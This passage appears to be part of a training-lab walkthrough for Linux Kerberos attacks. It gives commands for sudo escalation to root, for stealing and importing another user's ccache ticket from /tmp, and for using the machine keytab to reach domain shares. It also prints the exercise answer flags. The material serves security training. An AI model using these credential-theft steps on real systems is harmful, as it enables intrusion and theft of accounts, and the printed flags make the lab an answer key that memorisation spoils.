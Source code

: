 **Answer**: Password4 → SSH access → flag in home directory

### Exercise 6: Privilege Escalation
**Question**: "Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response."

```bash
# Check sudo privileges
sudo -l

# Expected output: (ALL) ALL

# Escalate to root
sudo su

# Read root flag
cat /root/flag.txt
```

**Answer**: Ro0t_Pwn_K3yT4b

### Exercise 7: ccache File Abuse
**Question**: "Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio."

```bash
# Find Julio's ccache files
ls -la /tmp | grep krb5

# Expected output (multiple files):
# -rw------- julio@inlanefreight.htb domain users@inlanefreight.htb krb5cc_647401106_9JBodG
# -rw------- julio@inlanefreight.htb domain users@inlanefreight.htb krb5cc_647401106_HRJDux

# Copy and import julio's ticket (choose non-expired one)
cp /tmp/krb5cc_647401106_9JBodG .
export KRB5CCNAME=/root/krb5cc_647401106_9JBodG

# Verify ticket
klist

# Access julio's share and get file
smbclient //dc01/julio -k -c 'get julio.txt' -no-pass
cat julio.txt
```

**Answer**: JuL1()_SH@re_fl@g

### Exercise 8: Computer Account Ticket
**Question**: "Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_)."

```bash
# Create working directory
mkdir final_flag
cd final_flag/

# Use computer account keytab (note the quotes!)
kinit 'LINUX01$@INLANEFREIGHT.HTB' -k -t /etc/krb5.keytab

# Verify computer account ticket
klist

# Access computer share
smbclient //dc01/linux01 -k -c 'get flag.txt' -no-pass
cat flag.txt
```
